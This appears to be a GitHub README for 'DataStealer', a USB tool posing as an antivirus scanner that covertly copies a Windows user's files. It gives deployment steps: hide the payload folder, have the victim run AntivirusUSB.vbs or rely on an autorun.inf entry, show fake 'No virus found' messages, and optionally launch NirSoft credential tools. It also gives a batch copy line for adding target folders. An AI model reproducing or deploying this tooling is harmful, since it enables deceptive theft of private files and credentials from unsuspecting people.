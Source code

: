 # DataStealer

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration
You can change diferents values in **run.bat**.

**Add or remove formats of steal files**
>set formats=*.jpg *.png *.mp4 *.3gp *.wav

**Enable or disable messages**
>set msg1=**true / false** [DEFAULT TRUE]
>set msg2=**true / false** [DEFAULT TRUE]
>
>set msg1text=Analyzing USB device for searching virus. [WINDOWS TEXT]
>
>set msg2text=No virus found. [WINDOWS TEXT]

**Enable or disable file theft**
>set stealfiles=**true / false** [DEFAULT TRUE]
>
>set nirsoft=**true / false** [DEFAULT TRUE]
>
>set soft=**[names of nirsoft software files]** [DEFAULT EMPTY]

### Folders (Advanced Users)
If you want you can add lines with more folders in **"run.bat"** for gather information.

Like this:
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%formats%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")

Replace **"%userprofile%\Pictures\"** for any folder from Windows.

# Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)
